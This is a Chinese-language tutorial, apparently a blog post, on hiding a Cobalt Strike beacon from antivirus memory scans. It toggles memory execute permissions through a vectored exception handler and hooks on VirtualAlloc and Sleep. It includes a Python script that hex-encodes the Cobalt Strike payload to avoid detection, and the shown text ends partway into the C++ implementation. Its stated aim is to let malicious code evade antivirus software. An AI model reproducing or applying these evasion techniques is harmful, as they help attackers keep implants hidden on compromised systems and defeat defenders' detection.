 不过，我们可以利用Windows的异常处理机制，在需要运行恶意代码的时候临时恢复其可执行属性。然后，当代码进入休眠状态时，我们再次去除其可执行属性，使其隐藏起来。这样，恶意代码就可以在需要的时候运行，而在不需要的时候则隐藏起来，避开杀毒软件的侦查。



## 实现思路

1.使用 `AddVectoredExceptionHandler` 注册一个异常处理函数 `FirstVectExcepHandler`，这个函数会在发生异常时被调用。当程序访问了一个非法的内存地址（如访问一个没有权限的内存区域）时，系统会引发一个异常，这时异常处理函数就会被调用



2.使用 `Hook()` 函数钩住 `VirtualAlloc` 和 `Sleep` 两个系统函数。这样，每次调用这两个函数时，实际上都会执行我们定义的 `NewVirtualAlloc` 和 `NewSleep` 函数，其中`NewVirtualAlloc` 函数用于记录分配的内存区域的地址和大小，以便后续操作



3.`NewSleep` 函数中，首次调用时，会释放之前分配的内存，然后唤醒 `Beacon_set_Memory_attributes` 线程，这个线程会修改内存区域的权限为 PAGE_READWRITE，也就是只有读写权限，没有执行权限



4.`FirstVectExcepHandler` 是注册的异常处理函数，当访问的内存区域没有执行权限时，会产生一个异常，这时这个函数会被调用。这个函数首先判断异常是否是访问违规（代码 0xc0000005），并且是否是在我们之前记录的内存区域内，如果是，就将内存区域的权限修改为 PAGE_EXECUTE_READWRITE，也就是添加了执行权限，并让程序继续执行



## 代码实现

首先使用python写一个将二进制文件转换成16进制字符串并保存到txt文件的脚本，这是因为CobaltStrike生成的bin文件会报毒，需对其进行处理

```python
# 导入必要的库
import binascii

# 指定要转换的二进制文件路径
bin_file_path = "cobalt_strike.bin"
# 指定转换结果保存的txt文件路径
txt_file_path = "cobalt_strike_hex.txt"

# 读取二进制文件
with open(bin_file_path, 'rb') as f:
    bin_content = f.read()

# 将二进制内容转换为16进制字符串
hex_content = binascii.hexlify(bin_content).decode()

# 将16进制字符串保存到txt文件
with open(txt_file_path, 'w') as f:
    f.write(hex_content)

print("转换完成，16进制内容已保存到{}中".format(txt_file_path))
```



如下代码是利用VEH异常处理绕过内存查杀的主要实现

```cpp
#include <iostream>
#include<Windows.h>
#include <detours/detours.h>
#include <detours/detver.h>
#include <fstream>
#include <sstream>
#include <iostream>

using namespace std;

// 全局变量声明
LPVOID Beacon_address; // Beacon内存地址
SIZE_T Beacon_data_len; // Beacon内存长度
```